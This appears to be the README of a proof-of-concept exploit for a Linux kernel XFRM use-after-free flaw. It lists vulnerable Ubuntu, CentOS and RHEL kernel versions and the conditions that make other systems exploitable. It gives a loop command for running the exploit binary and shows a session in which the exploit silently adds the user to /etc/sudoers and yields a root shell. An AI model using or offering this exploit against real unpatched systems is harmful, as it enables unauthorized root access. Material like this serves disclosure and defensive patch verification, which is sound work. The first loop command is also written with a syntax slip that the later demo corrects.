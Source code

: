 ## Linux kernel 3.x - 5.x XFRM UAF PoC 

This is a poc for the [kernel
vulnerability](https://duasynt.com/blog/ubuntu-centos-redhat-privesc) that was
reported last year. CentOS was the last distribution to patch the bug in
January 2020.

The technical report is here https://duasynt.com/pub/vnik/01-0311-2018.pdf

Should work on all kernels with the build date before July - November 2019 on
the following distributions:

- Ubuntu 14.04 / 16.04 Server 4.4 LTS kernels
- CentOS 8 4.18 kernels
- Red Hat Enterprise Linux 8 4.18 kernels
- Ubuntu 18.04 Server LTS 4.15 kernels

Other distributions might be affected if:

- unprivileged usernamespaces are allowed
- xfrm support is compiled in or can be autoloaded
- the patch was not backported

It will probably take several tries to win the race (sometimes over 10
attempts), so run it in a loop just like it says:

```
$ while :; ./lucky0 -q && break; done
```

On success, the current user is added to /etc/sudoers without a password.

```
[vnik@localhost ~]$ cat /etc/redhat-release 
CentOS Linux release 8.1.1911 (Core) 
[vnik@localhost ~]$ uname -a
Linux localhost.localdomain 4.18.0-80.11.2.el8_0.x86_64 #1 SMP Tue Sep 24 11:32:19 UTC 2019 x86_64 x86_64 x86_64 GNU/Linux
[vnik@localhost ~]$ while :; do ./lucky0 -q && break; done
[-] failed to win the race
[-] failed to win the race
[-] failed to win the race
[-] failed to win the race
[+] current user vnik was added to /etc/sudoers w/o a password. 'sudo -s' to get a shell
[vnik@localhost ~]$ sudo -s
[root@localhost vnik]# 
```

**On 4.4.* kernels it may trigger a null oops but it's fully recoverable.**

